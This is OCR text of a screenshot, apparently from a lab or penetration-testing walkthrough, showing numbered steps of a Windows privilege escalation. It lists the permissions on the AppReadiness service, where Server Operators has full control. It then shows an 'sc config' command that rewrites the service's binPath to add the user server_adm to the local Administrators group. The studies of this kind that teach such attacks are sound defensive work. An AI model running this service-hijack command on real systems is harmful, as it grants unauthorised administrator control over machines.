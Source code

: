 PsService v2.25 - Service information and configuration utility
Copyright (C) 2001-2010 Mark Russinovich
Sysinternals - www.sysinternals.com

SERVICE_NAME: AppReadiness
DISPLAY_NAME: App Readiness
        ACCOUNT: LocalSystem
        SECURITY:
        [ALLOW] NT AUTHORITY\SYSTEM
                Query status
                Query Config
                Interrogate
                Enumerate Dependents
                Pause/Resume
                Start
                Stop
                User-Defined Control
                Read Permissions
        [ALLOW] BUILTIN\Administrators
                All
        [ALLOW] NT AUTHORITY\INTERACTIVE
                Query status
                Query Config
                Interrogate
                Enumerate Dependents
                User-Defined Control
                Read Permissions
        [ALLOW] NT AUTHORITY\SERVICE
                Query status
                Query Config
                Interrogate
                Enumerate Dependents
                User-Defined Control
                Read Permissions
        [ALLOW] BUILTIN\Server Operators
                All

3)

C:\Users\server_adm>net localgroup Administrators
Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
Domain Admins
Enterprise Admins
The command completed successfully.

4) 

C:\Users\server_adm>sc config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add"
[SC] ChangeServiceConfig SUCCESS
